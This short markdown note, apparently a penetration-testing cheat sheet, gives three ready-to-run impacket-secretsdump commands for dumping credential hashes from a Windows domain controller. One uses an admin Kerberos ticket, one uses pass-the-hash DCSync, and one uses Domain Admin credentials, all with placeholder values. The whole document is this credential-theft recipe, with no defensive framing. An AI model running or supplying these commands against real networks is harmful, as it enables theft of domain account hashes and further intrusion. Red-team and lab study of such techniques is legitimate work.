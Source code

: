 ## Use this impacket module to dump hashes from the local machine, depending the context of usage

#### 1) impacket-secretsdump -k -no-pass DC.DOMAIN.COM (Use this if you have an admin TGT)

#### 2) impacket-secretsdump DC.DOMAIN.COM -hashes 'LM_HASH:NTLM_HASH' (Do DC sync via PtH)

#### 3) impacket-secretsdump 'DOMAIN.COM\administrator:PASSWORD'@DC_IP (Do DC Sync with Domain Admin credentials)
